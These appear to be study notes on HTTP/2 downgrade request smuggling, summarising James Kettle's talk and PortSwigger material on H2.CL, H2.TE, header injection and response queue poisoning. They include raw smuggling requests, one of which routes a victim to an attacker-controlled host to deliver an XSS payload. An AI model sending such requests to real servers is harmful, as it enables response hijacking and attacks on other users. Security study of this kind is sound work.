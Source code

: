 ```html
\r\n
length-in-hex\r\n
GET /test/endpoint HTTP/1.1\r\n
Host: localhost\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
```

# James Kettle presentation  HTTP/2: The Sequel Is Always Worse
- HTTP/1.1 is plain text, server parser is done with string operations
- HTTP/2 is binary protocol using key:value pairs
- HTTP/2 Uses Streams and StreamIDs. The browser uses the StreamID to know to which request to attach a specific response
- HTTP Downgrade is possible because front end servers rewrite the requests to HTTP/1.1 to talk to the backend server
- This dodges all the security benefits of using HTTP/2. This actually makes things worse and allows to issues such as H2.CL or H2.TE

- H2.CL: Zuul/Netty CVE-2021-21295 the content-length not being properly verified led to H2.CL Desync under the circumstance that it is being proxied through as HTTP/1.1

- H2.TE: "any message containing connection-specific header fields MUST be treated as malformed" failing to abide this generates a situation where H2.TE is possible

- H2.TE via Request Header Injection
- being a binary protocol, it allows you to put arbitrary characters wherever you like
- putting newlines (\r\n) in HTTP headers could lead to header injection

- H2.X via Request Splitting - Resp Queue Poisoning
- Sending a transfer-encoding header is not required. Smuggle two requests.
- After the downgrade, this will make the server lose track of what response belongs to what request and cause a serious issue
- H2.TE via header name injection
- H2.TE via request line injection

- Tunneling section starting at minute 22 has not been added to the notes

# HTTP/2 - HTTP Downgrading: Advanced request smuggling
- HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read
- The issue is that many web application perform HTTP/2 downgrading and this opens the door to more vulnerabilities
- Portswigger has documentation showing how to manipulate HTTP/2 requests using the inspector and explain what they mean by "Kettled requests" - [HTTP/2 Portswigger](https://portswigger.net/burp/documentation/desktop/http2)
## H2.CL Vulnerabilities
- Add the content-length header to the HTTP/2 request
- Test the server for lack of `content-length` header validation instead of enforcing the length specified by the HTTP/2 built-in mechanism
- Find a server redirect and chain it the HTTP Request Smuggling to deliver the XSS payload
```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources/js HTTP/1.1
Host: attacker-controlled.com
Content-Type: application/x-www-form-urlencoded
```